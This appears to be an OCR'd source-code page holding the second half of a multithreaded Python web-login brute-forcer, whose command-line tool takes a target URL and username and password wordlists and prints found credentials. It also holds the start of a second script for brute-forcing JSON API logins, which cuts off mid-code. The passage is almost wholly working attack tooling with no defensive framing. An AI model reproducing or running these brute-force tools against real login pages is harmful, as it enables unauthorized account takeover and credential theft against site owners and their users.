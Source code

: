 ```bash
        print(f"Total combinations: {len(self.usernames) * len(self.passwords)}")
        
        # Start worker threads
        threads = []
        for i in range(self.threads):
            t = threading.Thread(target=self.worker)
            t.daemon = True
            t.start()
            threads.append(t)
        
        # Wait for completion
        self.queue.join()
        
        print(f"\nAttack completed. Found {len(self.found_credentials)} valid credentials:")
        for username, password in self.found_credentials:
            print(f"  {username}:{password}")

def load_wordlist(filename):
    """Load wordlist from file"""
    try:
        with open(filename, 'r', encoding='utf-8', errors='ignore') as f:
            return [line.strip() for line in f if line.strip()]
    except FileNotFoundError:
        print(f"Error: File {filename} not found")
        return []

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Web Application Brute Forcer')
    parser.add_argument('url', help='Target URL')
    parser.add_argument('-u', '--usernames', required=True, help='Username wordlist file')
    parser.add_argument('-p', '--passwords', required=True, help='Password wordlist file')
    parser.add_argument('-t', '--threads', type=int, default=10, help='Number of threads')
    
    args = parser.parse_args()
    
    usernames = load_wordlist(args.usernames)
    passwords = load_wordlist(args.passwords)
    
    if not usernames or not passwords:
        print("Error: Could not load wordlists")
        sys.exit(1)
    
    bruteforcer = WebBruteForcer(args.url, usernames, passwords, args.threads)
    bruteforcer.start_attack()
EOF

# JSON API brute force
cat > api_bruteforce.py << 'EOF'
#!/usr/bin/env python3
import requests
import json
import threading
from queue import Queue

def api_login_attempt(url, username, password):
    """Attempt API login"""
    headers = {
        'Content-Type': 'application/json',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'
    }
    
    data = {
        'username': username,
```